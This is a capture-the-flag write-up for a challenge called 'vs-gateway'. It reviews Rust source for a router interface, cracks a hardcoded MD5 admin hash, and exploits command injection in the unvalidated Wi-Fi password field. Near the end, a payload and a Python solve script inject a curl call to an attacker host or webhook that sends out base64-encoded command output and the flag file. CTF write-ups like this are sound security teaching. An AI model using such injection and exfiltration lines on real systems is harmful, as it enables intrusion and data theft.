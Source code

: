 # vs-gateway \[471 Points] (63 Solves)
```
We are developing a new router but not sure if the interface has bug or not. Could you have a look?
```
Attached is [dist/](./dist)

---

## Writeup
`dist/main.rs`? \
Welp, it's time to read some Rust!

First, let's look at main
```rs
fn main() {
    println!("----------------------------");
    println!("|        VS Gateway        |");
    println!("----------------------------");

    if auth(){
        run();
    }
    process::exit(0);
}
```

Ok, so auth first
```rs
fn auth() -> bool{
    let mut username = String::new();
    let mut password = String::new();

    print!("Username: ");
    io::stdout().flush().unwrap();
    io::stdin().read_line(&mut username).expect("Cannot read username!");

    print!("Password: ");
    io::stdout().flush().unwrap();
    io::stdin().read_line(&mut password).expect("Cannot read username!");

    if username.trim() == "admin" && check_password(password){
        println!("Access granted!");
        true
    }
    else{
        println!("Access forbidden!");
        false
    }
}
```
The username must be admin and password...
```rs
fn check_password(password: String) -> bool{
    let digest = md5::compute(password.trim());
    if format!("{:x}", digest) == "e10adc3949ba59abbe56e057f20f883e" {
        true
    }
    else{
        false
    }
}
```
is hashed? Let's Google for the hash

![Search result for searching the hash showing `123456`](./images/google_hash.png)

Ok, so we can log in! _**But what's now?**_

Looking a bit through the code I found this
```rs
fn save_properties_to_file(){
    unsafe{
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");
        Command::new("/bin/sh")
                        .arg("-c")
                        .arg(cmd)
                        .output()
                        .expect("Failed to execute command");
    }
}
```
Wait, what's ESSID, BAND, etc?
```rs
pub static mut ESSID: String = String::new();
static BSSID: &str = "94:4e:6f:d7:bf:05";
static mut BAND: String = String::new();
static mut CHANNEL: i32 = 0;
static mut WIFI_PASSWORD: String = String::new();
static mut ID: u64 = 0;
```
Alright, they are global variables

Hmm, _**if we could control their value**_, especially of the ones with type `String`,
_we would be able to run shell commands!_

There's a menu which allows us to change the essid, band, chanel and password
```rs
fn menu(){
    println!("--- MENU ---------------------");
    println!("1. Show properties");
    println!("2. Change essid");
    println!("3. Change wifi band");
    println!("4. Change channel");
    println!("5. Change wifi password");
    println!("6. Exit");
    print!("> ");
    io::stdout().flush().unwrap();
}
```

Looking through the functions behind changing essid, band, we see that there's
**input validation** which won't let us do anything of interest. However if we look at password...
```rs
fn change_wifi_password(){
    let mut input: String = String::new();

    unsafe{
        println!("Current password: {WIFI_PASSWORD}");
        print!("New password: ");
        io::stdout().flush().unwrap();
        input.clear();
        io::stdin().read_line(&mut input).expect("Failed to readline");
        WIFI_PASSWORD = input.trim().to_owned();
        println!("Done!");
    }
    save_properties_to_file();
}
```
**It just sets it!** _Nothing is validated!_

We can break out of the `echo` string, and curl our website to see output of commands like ls and cat
for example
```bash
"; curl https://ATTACKER.COM/$(ls | base64); echo "
```
_We have to convert it to base64 (or url encode it) so the output can be correctly sent to the server via HTTP._

Using `ls`, we find that there's a file `/home/user/flag.txt`, so we can cat it!
```py
io = start()

io.sendlineafter("Username: ", "admin")
io.sendlineafter("Password: ", "123456")

io.sendlineafter("> ", "5") # Select change password option

ATTACKER = "https://webhook.site/your_webhook_here"
io.sendlineafter("New password: ", f'"; curl https://{ATTACKER}/$(cat /home/user/flag.txt | base64); echo "')

io.close()
```

[solve.py](./solve.py)

**Flag:** `vsctf{1s_1t_tru3_wh3n_rust_h4s_c0mm4nd_1nj3ct10n!??}`
